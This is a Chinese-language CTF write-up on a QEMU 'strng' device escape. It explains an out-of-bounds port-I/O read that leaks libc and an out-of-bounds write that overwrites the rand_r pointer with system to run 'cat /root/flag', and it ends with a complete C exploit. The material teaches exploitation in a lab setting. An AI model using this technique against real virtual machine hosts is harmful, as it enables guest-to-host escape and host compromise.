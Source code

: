 前置知识的描述，大佬已经讲述的很清楚了，去下方链接处查看即可，这里只是记录一下个人对于exp的理解

https://xz.aliyun.com/t/6618#toc-0

第一步是使用`strng_mmio_write`将`cat /root/flag`写入到`regs[2]`开始的内存处，以供后续的攻击链使用

```c
    mmio_write(8,0x20746163);  // cat 全是反着来的，注意这一点
    mmio_write(12,0x6f6f722f); // /roo
    mmio_write(16,0x6c662f74); // t/fa
    mmio_write(20,0x006761); // ag
```

对于此处写入regs[2]做一个解释，因为在`strng_mmio_write`函数中，在你输入的size=4时，会检测你第一个参数addr，调用的结果如上面分析。regs数组的类型是uint32_t，数组里4字节为一个元素，因为此处一开始是 8 二进制为 1000，在>>2后二进制为 10 也就是2，刚到写到了regs[2]。后续的12，16，20其实分别写到了regs[3]，regs[4]，regs[5]

![image-20201008175629067](https://gitee.com/zhzzhz/blog_warehouse/raw/master/img/image-20201008175629067.png)

第二步是进行一个越界读，读取`regs`数组后面的`srand`地址，根据偏移算出system地址

我们可以算出regs数组与srand地址之间的偏移为0x104

![image-20201008181632456](https://gitee.com/zhzzhz/blog_warehouse/raw/master/img/image-20201008181632456.png)

因为这是一个八字节的地址，而我们每次返回只能返回4字节，所以我们需要进行两次的越界读写，分别是0x108和0x104。

```c
    uint32_t pmio_read(uint32_t addr)
{
    return (uint32_t)inl(addr);
}

	uint32_t pmio_arbread(uint32_t offset)
{
    pmio_write(pmio_base+0,offset); //这里其实就是对于opaque->addr写入你的offset，以方便read去读取
    return pmio_read(pmio_base+4);
}

	uint64_t srandom_addr=pmio_arbread(0x108);
    srandom_addr=srandom_addr<<32;
    srandom_addr+=pmio_arbread(0x104);
```

不过这里注意一点，虽然ida里面对于`strng_pmio_read`函数反汇编出来的结果是

```c
uint64_t __fastcall strng_pmio_read(STRNGState *opaque, hwaddr addr, unsigned int size)
{
  uint64_t result; // rax
  uint32_t reg_addr; // edx

  result = -1LL;
  if ( size == 4 )
  {
    if ( addr )
    {
      if ( addr == 4 )
      {
        reg_addr = opaque->addr;
        if ( !(reg_addr & 3) )
          result = opaque->regs[reg_addr >> 2]; //注意这里，对于opaque->addr进行了>>2的操作
      }
    }
    else
    {
      result = opaque->addr;
    }
  }
  return result;
}
```

但是实际上动调的时候，如下图，右移后又将其*4，相当于<<2回来了。所以我们不用对0x104，0x108进行<<2操作，直接写入就好

![image-20201008182742529](https://gitee.com/zhzzhz/blog_warehouse/raw/master/img/image-20201008182742529.png)

在获取到了srand函数的地址后，我们就可以通过计算算出libc基址，与此同时system地址也获得了。这时我们需要把rand_r的地址改成system地址。首先需要算出rand_r与regs数组的偏移

![image-20201008193759586](https://gitee.com/zhzzhz/blog_warehouse/raw/master/img/image-20201008193759586.png)

然后进行一次越界写操作，将system的地址覆盖进去

```c
uint32_t pmio_write(uint32_t addr, uint32_t value)
{
    outl(value,addr);
}

void pmio_abwrite(uint32_t offset, uint32_t value)
{
    pmio_write(pmio_base+0,offset); // 将偏移值传给opaque->addr
    pmio_write(pmio_base+4,value); // 将system的地址存入srand的地址里
}
pmio_abwrite(0x114,system_addr&0xffffffff);
```

然后这里特别离谱的一点.......我动调的时候发现它这里还是进行无用功>>2后又*4，乘回去了。

```c
reg_addr = opaque->addr;
        if ( !(reg_addr & 3) )
        {
          idx = reg_addr >> 2;
            
opaque->regs[idx] = val;
```

最后只需要调用rand_r，将regs[2]作为参数就可以调用system("cat /root/flag")来读取。

exp如下：

```c
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/io.h>
#include <stdint.h>

unsigned char* mmio_mem;
uint32_t pmio_base=0xc050;


void die(const char* msg)
{
    perror(msg);
    exit(-1);
}

void mmio_write(uint32_t addr, uint32_t value)
{
    *((uint32_t*)(mmio_mem + addr)) = value;
}

uint32_t mmio_read(uint32_t addr)
{
    return *((uint32_t*)(mmio_mem + addr));
}

uint32_t pmio_write(uint32_t addr, uint32_t value)
{
    outl(value,addr);
}


uint32_t pmio_read(uint32_t addr)
{
    return (uint32_t)inl(addr);
}

uint32_t pmio_arbread(uint32_t offset)
{
    pmio_write(pmio_base+0,offset);
    return pmio_read(pmio_base+4);
}

void pmio_abwrite(uint32_t offset, uint32_t value)
{
    pmio_write(pmio_base+0,offset);
    pmio_write(pmio_base+4,value);
}

int main(int argc, char *argv[])
{
    
    // Open and map I/O memory for the strng device
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        die("mmap mmio_mem failed");

    printf("mmio_mem @ %p\n", mmio_mem);
 

    mmio_write(8,0x20746163);
    mmio_write(12,0x6f6f722f);
    mmio_write(16,0x6c662f74);
    mmio_write(20,0x006761);
    
    /*
    //2f62696e2f7368
    mmio_write(8,0x6e69622f);
    mmio_write(12,0x0068732f);
    */
    // Open and map I/O memory for the strng device
    if (iopl(3) !=0 )
        die("I/O permission is not enough");


    // leaking libc address 
    uint64_t srandom_addr=pmio_arbread(0x108);
    srandom_addr=srandom_addr<<32;
    srandom_addr+=pmio_arbread(0x104);
    printf("leaking srandom addr: 0x%llx\n",srandom_addr);
    uint64_t libc_base= srandom_addr-0x3a8e0;
    uint64_t system_addr= libc_base+0x453a0;
    printf("libc base: 0x%llx\n",libc_base);
    printf("system addr: 0x%llx\n",system_addr);
    
    // overwrite rand_r pointer to system
    pmio_abwrite(0x114,system_addr&0xffffffff);

    mmio_write(0xc,0);

     
}
```


